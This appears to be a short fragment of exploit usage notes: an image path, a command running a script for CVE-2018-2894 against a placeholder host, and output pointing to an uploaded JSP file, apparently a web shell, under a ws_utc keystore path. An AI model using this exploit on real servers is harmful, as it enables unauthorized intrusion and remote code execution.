 python cve-2018-2894_upload.py -t http://IP:PORT
[+] Check URL: http://IP:PORT/ws_utc/css/config/keystore/1585895893159_360sglab.jsp 
